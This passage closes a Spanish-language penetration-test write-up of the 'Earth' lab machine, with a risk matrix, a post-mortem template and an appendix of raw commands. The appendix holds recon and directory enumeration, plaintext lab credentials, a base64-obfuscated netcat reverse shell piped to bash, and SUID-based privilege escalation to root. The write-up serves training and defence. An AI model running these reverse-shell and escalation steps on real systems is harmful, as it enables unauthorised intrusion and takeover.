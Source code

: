 Procesos:
- Escaneo y eliminación de secretos en repos (Git history).
- Monitorización de integridad de ficheros (AIDE).
- Respuesta ante incidentes y playbook de recuperación.

## 12. MATRIZ RIESGO – PRIORIDAD
- SUID reset_root — CRÍTICO — acción inmediata (u-s / quarantena).
- Panel con ejecución remota — CRÍTICO — deshabilitar / restringir + parche.
- Credenciales expuestas — ALTA — rotación y políticas de secretos.
- Métodos HTTP inseguros — MEDIA — deshabilitar TRACE / Harden Apache.

13. POST-MORTEM SUGERIDO (PLANTILLA)
- Resumen del incidente: (qué pasó)
Fecha/hora detección: (registro)
- Vector inicial: (p.ej. credenciales en HTML)
- Ejecución: (pasos reproducidos)
- Impacto: (archivos y servicios comprometidos)
- Acciones inmediatas: (qué se hizo)
- Acciones de remediación: (listado con responsable y fecha)
- Lecciones aprendidas: (mejoras procesales)
- Seguimiento: (auditorías/fecha)

14. APÉNDICE A — COMANDOS Y SALIDAS (RAW)
Bloque con los comandos clave usados (lista para copiar/pegar en scripts de auditoría).
```bash
# Recon
ip a
netdiscover -i eth0
sudo nmap -sV -sC -T4 192.168.131.130 -oN nmap.out

# Hosts
echo "192.168.131.130 earth.local terratest.earth.local" | sudo tee -a /etc/hosts

# Enum web
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt -t 50
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt -t 50

# Decrypt XOR (ejemplo)
python xor_decrypt.py

# Access panel
# credentials: terra / earthclimatechangebad4humans

# Reverse shell
# Escuchar
nc -lvnp 4444
# En web panel (base64)
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
# Ejecutar en panel:
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash

# Escalada: buscar SUID
find / -perm -u=s 2>/dev/null

# Crear ficheros y ejecutar reset_root
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
/usr/bin/reset_root
su root   # password: Earth
cat /root/root_flag.txt
```

